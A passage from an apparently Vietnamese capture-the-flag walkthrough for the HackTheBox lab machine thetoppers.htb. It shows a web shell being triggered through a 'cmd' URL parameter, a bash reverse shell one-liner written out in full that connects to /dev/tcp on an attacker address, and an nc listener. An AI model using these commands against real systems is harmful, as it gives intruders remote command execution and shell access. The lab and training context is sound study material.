 Có thể xác nhận shell đã được tải lên bằng cách điều hướng đến http://thetoppers.htb/shell.php. Hãy thử thực thi lệnh OS `id` bằng tham số URL `cmd`.

```
http://thetoppers.htb/shell.php?cmd=id
```

![alt text](image-10.png)

Phản hồi từ máy chủ chứa đầu ra của lệnh OS `id`, lệnh này xác minh rằng có lệnh thực thi mã trên box. Vì vậy, bây giờ hãy thử lấy một shell ngược.

Thông qua một shell ngược, sẽ kích hoạt máy chủ từ xa kết nối lại với địa chỉ IP của máy cục bộ trên cổng lắng nghe đã chỉ định. Có thể lấy địa chỉ IP `tun0` của máy cục bộ bằng lệnh sau.

```
ifconfig
```

![alt text](image-11.png)

Tạo một shell ngược bằng cách tạo một tệp `shell.sh` mới chứa nội dung bash reverse shell sau đây, nội dung này sẽ kết nối trở lại máy cục bộ trên cổng `1337`.

```
 #!/bin/bash
 bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

Khởi động trình lắng nghe `ncat` trên cổng cục bộ `1337` bằng lệnh sau.

```
nc -lvnp 1337
```

![alt text](image-12.png)
